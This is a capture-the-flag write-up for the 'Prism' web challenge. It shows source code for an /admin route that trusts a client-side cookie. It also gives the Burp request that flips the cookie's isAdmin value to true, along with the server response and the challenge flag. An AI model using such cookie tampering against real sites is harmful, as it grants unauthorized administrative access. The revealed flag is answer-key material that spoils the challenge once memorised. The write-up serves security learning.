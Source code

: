## [100 pts] Prism

###### Description

I love maimai!

Author: rorre

[http://34.101.36.1:9013/](http://34.101.36.1:9013/)

Flag = `NETSOS{4lwAys_Ch3ck_Str1cTlY_b0f656e053}`

Given source code that contain user.ts:
```ts
.get(

	"/admin",

	({ cookie: { profile } }) => {

		if (!profile.value?.isAdmin) return "Who are you?";

		return "NETSOS{REDACTED}";

	},

	{

		cookie: t.Cookie({

			profile: t.Optional(

				t.Object({

					id: t.Numeric(),

					username: t.String(),

					isAdmin: t.Boolean(),

					})

				),

			}),

		}

	)
```

it seems that we can retrieve the flag if we can acess the /admin 

however, direct acess is impossible because there is profile value check if its admin
![[Screenshot 2024-11-23 at 14.43.23.png]]

hence using burp repeater, modify the request to this:
```http
GET /admin HTTP/1.1
Host: 34.101.36.1:9013
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://34.101.36.1:9013/sign-in
Connection: keep-alive
Cookie: profile=%7B%22id%22%3A25%2C%22isAdmin%22%3Atrue%2C%22username%22%3A%22rifqy%22%7D
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

by changing the cookie from
`Cookie: profile=%7B%22id%22%3A25%2C%22isAdmin%22%3Afalse%2C%22username%22%3A%22rifqy%22%7D`

to `Cookie: profile=%7B%22id%22%3A25%2C%22isAdmin%22%3Atrue%2C%22username%22%3A%22rifqy%22%7D`

we can retrieve the flag
```
HTTP/1.1 200 OK
set-cookie: profile=%7B%22id%22%3A25%2C%22isAdmin%22%3Atrue%2C%22username%22%3A%22rifqy%22%7D; Path=/
content-type: text/plain;charset=utf-8
Date: Wed, 20 Nov 2024 04:39:02 GMT
Content-Length: 40

NETSOS{4lwAys_Ch3ck_Str1cTlY_b0f656e053}
```